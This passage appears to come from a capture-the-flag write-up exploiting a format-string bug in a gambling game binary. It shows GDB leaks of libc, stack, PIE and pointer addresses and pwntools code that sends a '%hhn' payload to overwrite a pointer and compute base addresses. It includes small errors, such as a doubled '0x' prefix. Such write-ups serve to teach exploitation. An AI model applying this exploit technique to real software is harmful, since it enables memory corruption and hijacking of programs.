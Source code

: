 We are looking for three things:
1. LIBC leak for our one gadget later
2. Stack leak for determing what we overwrite the value of the feedback pointer to
3. Game pointer to determine where our FSB needs to write to

Here is the libc leak:
```
gef➤  x/gx 0x00007ffff7e0b152
0x7ffff7e0b152 <__libc_start_main+242>: 0x4800017de7e8c789
```
Here is the stack leak:
```
gef➤  x/gx 0x00007fffffffe810
0x7fffffffe810: 0x00007fffffffe830
```
And here is the address and value of the Game pointer:
```
gef➤  x/gx 0x00005555556036b0
0x5555556036b0: 0x0000555555602050
```
I am using a program called retsync which syncs GDB and ghidra, so I can print the symbol names like so:
```
gef➤  bx/gx feedback
0x555555602058: 0x00005555556032a0
gef➤  bx/gx money
0x555555602050: 0x000000000000007b
```
As you can see, the money and feedback pointers are right next to each other. We simply need to modify the lower byte of money, 0x50, to 0x58. Then, any money we make off of gambling will overwrite the value in the feedback pointer.

Also, let's throw in a PIE leak as well, since it might make debugging a lot easier. The PIE leak's value is 0x0x0000555555400e9f.

Using this information, we can construct our payload for the FSB attack:
```py
r.recvuntil("Player name: ")
# Stack Offsets:
# 10: stack
# 11: PIE
# 13: Game pointer
# 29: libc
payload = "%{}c%{}$hhn %{}$lx %{}$lx %{}$lx".format(0x58, 13, 10, 11, 29)
r.sendline(payload)

# Format String Leaks
r.recvuntil("\xa3 ")
# Stack leak
stack_leak = int.from_bytes(bytes.fromhex(r.recv(12).decode()), "big")
stack_target = stack_leak + 0x2a
r.recv(1)

# PIE leak
pie_leak = int.from_bytes(bytes.fromhex(r.recv(12).decode()), "big")
pie_base = pie_leak - 0xe9f
r.recv(1)

# LIBC leak
libc_leak = int.from_bytes(bytes.fromhex(r.recv(12).decode()), "big")
libc.address = libc_leak - 0x20840

# logging
log.info("RET addr leaked at {}".format(hex(stack_target)))
log.info("PIE base leaked at {}".format(hex(pie_base)))
log.info("LIBC base leaked at {}".format(hex(libc.address)))
```
